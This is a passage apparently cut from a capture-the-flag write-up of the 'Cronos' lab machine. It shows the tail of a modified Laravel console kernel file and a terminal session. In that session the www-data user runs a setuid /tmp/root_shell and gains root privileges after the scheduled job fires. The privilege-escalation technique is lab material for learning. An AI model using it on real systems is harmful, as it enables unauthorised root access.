 ```

    /**
     * Register the Closure based commands for the application.
     *
     * @return void
     */
    protected function commands()
    {
        require base_path('routes/console.php');
    }
}
EOF
```

#### Wait until Laravel will execute job and run root shell
```
www-data@cronos:/var/www/admin$ /tmp/root_shell -p   
/tmp/root_shell -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```
